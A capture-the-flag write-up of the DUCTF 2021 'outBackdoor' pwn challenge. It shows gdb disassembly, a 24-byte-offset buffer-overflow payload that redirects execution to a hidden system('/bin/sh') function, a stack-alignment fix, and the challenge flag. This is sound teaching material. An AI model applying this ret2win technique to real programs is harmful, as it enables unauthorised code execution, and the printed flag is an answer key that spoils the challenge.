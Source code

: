 ## Intro
**outBackdoor** was a pwn challenge at DUCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that besides NX no other stack mitigations are present, especially no PIE. Following the `ltrace` I learned the relatively simple flow of the program and found
a potential buffer overflow vulnerability because the insecure `gets` functions is used to capture user input. I loaded the program into `gdb` and found - next
to the `main` function - another interesting function called `outBackdoor`.

```
(gdb) info functions
...
0x0000000000401195  main
0x00000000004011d7  outBackdoor
...
```

```
(gdb) disas outBackdoor
...
0x00000000004011e7 <+16>:	lea    rdi,[rip+0xedf]        # 0x4020cd  "/bin/sh"
0x00000000004011ee <+23>:	mov    eax,0x0
0x00000000004011f3 <+28>:	call   0x401050 <system@plt>
...
```

```
(gdb) disas main
...
0x00000000004011bf <+42>:	lea    rax,[rbp-0x10]
0x00000000004011c3 <+46>:	mov    rdi,rax
0x00000000004011c6 <+49>:	mov    eax,0x0
0x00000000004011cb <+54>:	call   0x401060 <gets@plt>
...
```

The disassembly of the functions reveals we can get a shell from `outBackdoor` - if we are able to call it, as it isn't called from anywhere in `main`.
So the goal is to overflow the buffer in the `main` function and overwrite the return address with the address of the `outBackdoor` function. Let's set
a breakpoint right after the `gets` and run the program with `AAAAAAAA` as input.

```
(gdb) r
...
Breakpoint 1, 0x00000000004011d0 in main ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffdee0:
 rip = 0x4011d0 in main; saved rip = 0x7ffff7e0cb75
 Arglist at 0x7fffffffded0, args: 
 Locals at 0x7fffffffded0, Previous frame's sp is 0x7fffffffdee0
 Saved registers:
  rbp at 0x7fffffffded0, rip at 0x7fffffffded8
(gdb) x/10x $rbp-0x10
0x7fffffffdec0:	0x41414141	0x41414141	0x00000000	0x00000000
0x7fffffffded0:	0x00000000	0x00000000	0xf7e0cb75	0x00007fff
0x7fffffffdee0:	0xffffdfc8	0x00007fff
```

We see that the buffer at `rbp-0x10` which is at `0x7fffffffdec0` itself takes 16 bytes of which we filled 8 bytes with the `AAAAAAAA`'s we typed in.
Then follows the `rbp` at `0x7fffffffded0`. On a 64-bit system this address takes another 8 bytes and directly after follows the `main` function's return
address we want to overwrite with the address of `outBackdoor` which is `0x00000000004011d7` - lucky for us the binary isn't PIE enabled.  

So we can just fill the buffer at `rbp-0x10` with 16 bytes, overwrite the `rbp` next with another 8 bytes and then overwrite
the return address of `main` with the 64-bit address of `outBackdoor` which is `0x00000000004011d7`.

## Solution
Let's pull off a quick ruby exploit for proof of concept.

```
(gdb) r < <(ruby -e 'print "A"*16 + "B"*8 + "\xd7\x11\x40\x00\x00\x00\x00\x00"')
...
Breakpoint 1, 0x00000000004011d0 in main ()
(gdb) x/10x $rbp-0x10
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x42424242	0x42424242	0x004011d7	0x00000000
0x7fffffffdee0:	0xffffdf00	0x00007fff
(gdb) c
Continuing.


W...w...Wait? Who put this backdoor out back here?
```

When running the exploit remotely, though, the program crashed because of the `system` call implementation in the libc there uses the `movaps` instruction
which expects the stack to be 16-byte aligned, but we borked that before. In order to deal with that issue I overwrote the return address of `main` with
the address of `outBackdoor + 1`, skipping the first `push rbp` instruction which fixes the problem.

See [exploit](./exploit.py) for an automation of the exploit written in python.

> DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
